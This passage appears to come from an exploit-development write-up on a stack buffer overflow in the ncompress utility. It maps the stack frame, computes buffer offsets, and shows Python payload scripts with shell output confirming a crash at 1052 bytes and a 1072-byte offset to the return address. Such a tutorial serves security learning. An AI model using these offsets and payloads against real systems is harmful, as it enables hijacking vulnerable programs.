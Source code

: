 The stack layout is:
 Return address
 Saved ebp
 Saved edi (ebp - 4)
 Saved esi (ebp - 8)
 Saved ebx (ebp - 12)
 Allocated Space (Starts at ebp - 12 - 0x4dc = 1256 bytes)
 The buffer is at ebp - 0x428 inside the allocated space.

So when we overflow the buffer, we start from `ebp -0x428` and go towards higher addresses. So the distance from the start of the buffer to the saved ebx (ebp -12)
is  __`ebp` - 12 - (`ebp` - 1064) = 1052 bytes__. That means that if we run the program with __1052__ bytes we will cause a Segmentation Fault.

Testing with 1052 bytes
``` python
import sys

payload = b""
payload += b"B" * 1052

sys.stdout.buffer.write(payload)
```
Executing
```bash
ubuntu@dbd4f638e4eb:~$ python3 exploit1052.py > /tmp/payload1052
ubuntu@dbd4f638e4eb:~$ ncompress `cat /tmp/payload1052`
BBBBBBBBBBBBB............BBBBBBBBBBBB: File name too long
Segmentation fault (core dumped)
```
Testing with 1051 bytes:
``` python3
import sys

payload = b""
payload += b"B" * 1051

sys.stdout.buffer.write(payload)
```
Executing:
```bash
ubuntu@dbd4f638e4eb:~$ python3 exploit1051.py > /tmp/payload1051
ubuntu@dbd4f638e4eb:~$ ncompress `cat /tmp/payload1051`
BBBBBBB.....BBBBBB: File name too long
```

At 1052 bytes, we encounter a Segmentation fault, but at 1051 the program runs without crashing (We just get a File name too long error). Even though I already found the offset at 1072 bytes, I tested 1052 bytes to further understand how the stack is structured. 
Let's break down how we reach __1072__ bytes:
1. __1052__ bytes - This is the point where we start overwriting saved registers, meaning this is where the saved `ebx` is located.
2. __+12__ bytes - These extra bytes account for the three registers.
3. __+8__ bytes - The saved `ebp` and the return address.
